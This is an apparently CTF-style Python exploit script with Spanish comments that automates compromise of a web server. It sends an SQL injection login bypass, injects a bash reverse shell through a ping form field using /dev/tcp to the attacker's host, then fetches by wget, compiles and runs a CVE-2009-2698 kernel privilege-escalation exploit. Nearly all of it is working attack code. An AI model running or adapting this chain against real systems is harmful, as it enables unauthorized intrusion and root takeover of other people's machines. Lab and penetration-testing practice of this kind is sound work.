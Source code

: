 ```python
#!/usr/bin/env python3
# Author: Intrusionz3r0

import requests,time,threading,os,sys
from pwn import *

#variables globales
LPORT=443

def handler(key,frame):
	print("Adios!!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)


def getShell(RHOST,LHOST):

    url1 = "http://{}/index.php".format(RHOST)

    data1={
        "uname":"admin",
        "psw":"hi' or 'a'='a",
        "btnLogin":"Login"
    }
    p1 = log.progress("Login")
    p1.status("Enviando inyeccion SQL!!")
    time.sleep(2)
    r1 = requests.post(url1,data=data1)

    if("Welcome to the Basic Administrative Web Console" in r1.text):
    	p1.success("Inyeccion realizada con exito!!")


	url2="http://{}/pingit.php".format(RHOST)
	data2={
		"ip":"127.0.0.1;bash -i > /dev/tcp/{}/{} 0>&1".format(LHOST,LPORT),
		"submit":"submit"
	}
	p2 = log.progress("Shell")
	p2.status("Enviado reverse shell.")
	time.sleep(2)
	try:
		r2 = requests.post(url2,data=data2,timeout=1)
	except requests.exceptions.Timeout:
		p2.success("Estamos en el sistema. !!")

def privEsc(LHOST):
	p3 = log.progress("Root")
	shell.sendline("cd /dev/shm")
	p3.status("Descargando exploit.")
	time.sleep(2)
	shell.sendline("wget http://{}/0x82-CVE-2009-2698.c".format(LHOST))
	p3.status("Compilando y ejecutando exploit.")
	time.sleep(3)
	shell.sendline("gcc 0x82-CVE-2009-2698.c -o 0x82-CVE-2009-2698 && ./0x82-CVE-2009-2698")
	p3.success("Pwned!!")
	shell.interactive()

def downloadExploit():
	os.system("searchsploit -m linux_x86/local/9542.c")
	os.system("mv 9542.c 0x82-CVE-2009-2698.c")

```